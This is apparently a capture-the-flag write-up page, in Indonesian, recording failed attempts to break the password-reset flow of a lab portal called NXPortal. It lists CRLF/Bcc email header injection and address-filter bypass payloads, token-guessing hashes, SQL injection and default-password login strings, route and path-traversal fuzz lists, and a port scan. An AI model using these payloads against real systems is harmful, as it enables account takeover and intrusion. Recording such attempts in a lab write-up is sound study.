


# NXPortal — Yang sudah dicoba (live, 2026-11-08)

[← Overview](13-nxportal.md) · [Index](index.md)

> **Langkah 5/10 — Yang sudah dicoba (live, 2026-11-08).** Inbox dibuat via API mail.tm:
>
> **Titik penting:** curl -sS -D - -o /dev/null -c ck "$BASE/forgot" · curl -sS -D - -o /dev/null -b ck -c ck -X POST -d 'email=employee@nxctf.local' "$BASE/forgot"
>
> **Berikutnya:** [Eksploitasi / Solver (sebagian, belum selesai)](13-nxportal-06-eksploitasi-solver-sebagian-belum-selesa.md)

## 2.4 Yang sudah dicoba (live, 2026-11-08)

#### A. Bypass filter + external inbox (mail.tm)

Inbox dibuat via API mail.tm:

```text
nxppihcdyu4@fldubai.com
```

Payload yang dikirim ke `/forgot`:

| Tag | Payload | Respons |
|---|---|---|
| A_display | `"@nxctf.local" <nxppihcdyu4@fldubai.com>` | success |
| B_doubleat | `nxppihcdyu4@nxctf.local@fldubai.com` | success |
| C_comment | `nxppihcdyu4@fldubai.com (nxctf.local)` | error |
| D_crlf | `nxppihcdyu4@fldubai.com\r\nBcc: nxppihcdyu4@fldubai.com\r\nX-Note: x@nxctf.local` | success |
| E_newline | `nxppihcdyu4@fldubai.com\nBcc: nxppihcdyu4@fldubai.com\nX-Note: x@nxctf.local` | success |
| F_comma | `nxppihcdyu4@fldubai.com, nobody@nxctf.local` | success |

Setelah 30+ detik, inbox mail.tm tetap **0 messages**. Tidak ada email yang
keluar ke domain eksternal.

#### B. Reset token

`POST /reset` dengan token acak:

```text
token=x         -> "Invalid or expired reset token."
token=test      -> "Invalid or expired reset token."
token=123456    -> "Invalid or expired reset token."
token=admin     -> "Invalid or expired reset token."
```

Token tidak ada di cookie/session:

```bash
curl -sS -D - -o /dev/null -c ck "$BASE/forgot"
# tidak ada Set-Cookie
curl -sS -D - -o /dev/null -b ck -c ck -X POST -d 'email=employee@nxctf.local' "$BASE/forgot"
# tidak ada Set-Cookie
```

Token juga tidak muncul di body respons `/forgot` (hanya pesan sukses).

#### C. Token prediction

Dicoba token turunan dari email/nama:

```text
md5(admin@nxctf.local)       d65b1f991d83fbe582236d4d43287659
sha1(admin@nxctf.local)      00f175cfd4224c62a5f334351102e7c7693ba4bf
sha256(admin@nxctf.local)    430786f2efae3d1fca28141aabe3f56b50e2c589bedce1d42d
md5(admin) / sha1(admin) / sha256(admin)
md5(nxctf) / sha1(nxctf) / sha256(nxctf)
md5(nxportal) / sha1(nxportal) / sha256(nxportal)
base64(admin@nxctf.local)    YWRtaW5AbnhjdGYubG9jYWw=
base64url(...)               YWRtaW5AbnhjdGYubG9jYWw
admin@nxctf.local
00000000-0000-0000-0000-000000000000
```

Semua → `Invalid or expired reset token.` Tidak ada token yang bisa ditebak.

#### D. Login

Default password dan SQLi:

```text
admin@nxctf.local/admin        -> Invalid corporate email or password.
admin@nxctf.local/password     -> Invalid corporate email or password.
admin@nxctf.local/admin123     -> Invalid corporate email or password.
admin@nxctf.local/nxportal     -> Invalid corporate email or password.
admin@nxctf.local/changeme     -> Invalid corporate email or password.
admin@nxctf.local/nxctf2026    -> Invalid corporate email or password.
admin@nxctf.local' OR '1'='1   -> Invalid corporate email or password.
' OR 1=1--                     -> Invalid corporate email or password.
admin@nxctf.local'--           -> Invalid corporate email or password.
" OR 1=1--                     -> Invalid corporate email or password.
```

Tidak ada SQLi/default creds.

#### E. Route / source / mailbox fuzz

Route yang ditemukan:

```text
200 /reset
302 /dashboard -> /login
302 /logout -> /
```

Tidak ditemukan:

```text
/mail /mails /inbox /mailbox /messages /emails /api/mail /api/messages
/dev/mail /debug /debug/mail /admin /account /profile /recovery /recover
/token /api/forgot /api/reset /console /__debugger__ /mailhog /mailpit
/sent /outbox /preview /webmail /roundcube /squirrelmail
```

Source/static traversal:

```text
/app.py /main.py /config.py /requirements.txt /Dockerfile /.git/HEAD
/static/../app.py /static/..%2fapp.py /static/%2e%2e/app.py
/static/..%252fapp.py /%2e%2e/app.py /static/..%5capp.py
```

Semua `404` (atau redirect `/static//app.py` 308), tidak ada source/database
yang bocor.

Port host yang dicek:

```text
25 110 143 465 587 993 995 1025 8025 8080 3000 5000 8888 -> closed
8000 -> OPEN (NXCTL platform API, bukan mail)
```

Jadi tidak ada MailHog/Mailpit yang bisa diakses dari luar.

#### F. Blog

`/blog/5` adalah satu-satunya artikel yang relevan (header parsing/mail
notification). Artikel lain tidak memuat kredensial/token.

#### G. Uji ulang instance baru (2026-11-08, port 43287)

Service di-`nx-up` ulang dan dapat port baru `43287` (internal service
`nxmail`). Dibuat inbox mail.tm baru
(`nxpqwqip2lb5n@fldubai.com`), lalu lima payload dikirim ke `/forgot`:

```text
"@nxctf.local" <nxpqwqip2lb5n@fldubai.com>
nxpqwqip2lb5n@fldubai.com@nxctf.local@fldubai.com
admin@nxctf.local\r\nBcc: nxpqwqip2lb5n@fldubai.com
nxpqwqip2lb5n@fldubai.com\r\nBcc: ... \r\nX-Note: x@nxctf.local
nxpqwqip2lb5n@fldubai.com, admin@nxctf.local
```

Semua diterima aplikasi (`alert-success`, 4090 byte), tetapi setelah 45 detik
inbox mail.tm tetap **0 pesan**. Artinya relay/mail sink benar-benar tidak
mengirim keluar pada instance ini, bukan karena filter aplikasi.

### Evidence langkah ini



*Terminal evidence — `02-forgot.txt` (arsip transkrip sesi solve).*



*Terminal evidence — `09-source-fuzz.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`02-forgot.txt`](assets/nxportal/02-forgot.txt)
- [`09-source-fuzz.txt`](assets/nxportal/09-source-fuzz.txt)
